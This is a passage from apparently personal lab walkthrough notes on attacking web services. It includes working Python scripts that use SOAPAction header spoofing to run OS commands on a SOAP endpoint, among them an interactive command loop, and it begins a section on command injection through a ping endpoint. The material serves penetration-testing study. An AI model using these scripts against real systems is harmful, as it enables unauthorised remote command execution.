     print(requests.post("http://10.129.102.38:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
    ```

    ```sh
    python3 client.py
    # this gives an error saying it is allowed only in internal networks
    ```
  
  * Modified script for spoofing attack; here we specify 'LoginRequest' in ```<soap:Body>``` and blocked operation is in SOAPAction header:

    ```py
    import requests
    
    payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'
    
    print(requests.post("http://10.129.102.38:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
    ```

    ```sh
    python3 client_soapaction_spoofing.py
    # this works
    ```
  
  * For executing multiple commands via SOAPAction spoofing:

    ```py
    import requests

    while True:
        cmd = input("$ ")
        payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
        print(requests.post("http://10.129.102.38:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
    ```

* Command injection:

  * For given example, the web service provides a ping functionality at '/ping-server.php/ping'

  * From given source code, the 'ping' function takes 2 args - the IP and number of packets; request would look like <http://10.129.66.86:3003/ping-server.php/ping/10.10.65.70/3>

  * To confirm the web server is sending ping requests, we can run ```sudo tcpdump -i tun0 icmp```, and we will see ICMP packets in terminal

